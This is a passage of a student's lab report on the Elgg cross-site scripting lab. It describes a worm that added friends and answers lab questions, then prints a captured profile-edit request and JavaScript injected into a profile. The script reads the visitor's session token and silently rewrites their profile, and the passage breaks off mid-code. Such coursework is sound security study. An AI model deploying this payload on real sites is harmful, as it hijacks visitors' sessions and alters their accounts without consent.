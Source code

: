<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206145353441.png" alt="image-20201206145353441" style="zoom:67%;" />

Then I use Boby's account to see Samy's profile, then they automatically became friends.

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206145450707.png" alt="image-20201206145450707" style="zoom:80%;" />





<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206145507579.png" alt="image-20201206145507579" style="zoom:67%;" />

### Question1

To verify the authentication of the user, to check who the user is.

### Question2

It doesn't work, it becomes inner text and cannot be executed.



## Task5

First launching a editing action and using Wireshark to capture it, I found that the request URL is http://www.xsslabelgg.com/action/profile/edit.

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206153828508.png" alt="image-20201206153828508" style="zoom:80%;" />

and the post body is in the following picture.

<img src="C:\Users\Lori\Desktop\Course\ComputerScience\CS315\lab11\pictures\image-20201206153215184.png" alt="image-20201206153215184" style="zoom:67%;" />

Here is the post body.

`__elgg_token=aIXlkRH3hLVF5ibk4VD6Vg&__elgg_ts=1607268605&name=Boby&description=&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=45`

Then I add this into the `About me` section, where I modify the `contactemail` field to my email address `11811407@mail.sustech.edu.cn`.

```js
<script type="text/javascript">
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
    var content = token+ts+"&name="+userName+"&description=&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=11811407@mail.sustech.edu.cn&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid="+guid;
    //Construct the content of your url.
    var samyGuid=47; //FILL IN
    if(elgg.session.user.guid!=samyGuid)
    {
    	//Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
```
